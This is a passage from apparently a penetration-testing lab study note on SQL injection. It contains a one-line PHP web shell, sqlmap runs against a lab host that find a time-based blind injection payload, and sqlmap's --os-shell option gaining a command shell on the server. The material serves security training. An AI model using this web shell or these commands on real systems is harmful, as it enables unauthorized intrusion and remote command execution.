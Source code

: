 >[!Important]
> PHP reverse shell: `<? system($_REQUEST['cmd']); ?>`

#### - Automating the Attack (sqlmap)
>[!Note]
> Due to its high volume of traffic, sqlmap should not be used as a first choice tool during assignments that require staying under the radar.
```
┌──(chw㉿CHW-kali)-[/]
└─$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 02:14:54 PM /2022-05-16/

...
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
...
```
> `-p`: 要測試的參數

Another sqlmap core feature is the `--os-shell` parameter: **full interactive shell**.
![image](https://hackmd.io/_uploads/r1qN4AtQJg.png)
```
┌──(chw㉿CHW-kali)-[/]
└─$ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
...
[*] starting @ 02:20:47 PM /2022-05-19/

[14:20:47] [INFO] parsing HTTP request from 'post'
[14:20:47] [INFO] resuming back-end DBMS 'mysql'
[14:20:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: item (POST)
...
---
...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[14:20:49] [INFO] using '/var/www/html/tmp' as web server document root
 ...
[14:20:51] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
```
